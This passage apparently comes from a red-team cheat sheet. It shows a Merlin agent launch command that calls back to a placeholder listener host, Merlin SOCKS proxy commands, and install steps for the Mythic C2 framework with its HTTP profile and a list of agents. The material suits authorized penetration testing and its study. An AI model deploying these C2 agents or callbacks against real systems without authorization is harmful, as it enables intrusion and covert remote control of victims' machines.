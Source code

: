 ```console
$ ./merlinAgent-Linux-x64 -url http://<LHOST>:<LPORT> -psk '<PSK>' -padding 0 -sleep 5s -skew 0 -proto http -v
```

### SOCKS Proxy

```console
Merlin» socks list
Merlin» socks start <PORT> <AGENT>
Merlin» socks stop <PORT> <AGENT>
```

## Mythic

> https://github.com/its-a-feature/Mythic

> https://docs.mythic-c2.net/

> https://github.com/MythicAgents

> https://github.com/MythicC2Profiles

### Installation

```console
$ sudo apt-get install build-essential ca-certificates curl docker.io docker-compose gnupg gpg mingw-w64 g++-mingw-w64 python3-docker
$ git clone https://github.com/its-a-feature/Mythic.git
$ cd Mythic/
$ sudo make
```

### Install HTTP C2 Profile

```console
$ sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
```

### Install Mythic Agents

```console
$ sudo ./mythic-cli install github https://github.com/MythicAgents/apfell.git
$ sudo ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
$ sudo ./mythic-cli install github https://github.com/MythicAgents/arachne.git
$ sudo ./mythic-cli install github https://github.com/MythicAgents/Athena.git
$ sudo ./mythic-cli install github https://github.com/MythicAgents/freyja.git
$ sudo ./mythic-cli install github https://github.com/MythicAgents/hermes.git
$ sudo ./mythic-cli install github https://github.com/MythicAgents/Medusa.git
$ sudo ./mythic-cli install github https://github.com/MythicAgents/merlin.git
$ sudo ./mythic-cli install github https://github.com/MythicAgents/Nimplant.git
$ sudo ./mythic-cli install github https://github.com/MythicAgents/poseidon.git
```

### Finalize the Installation
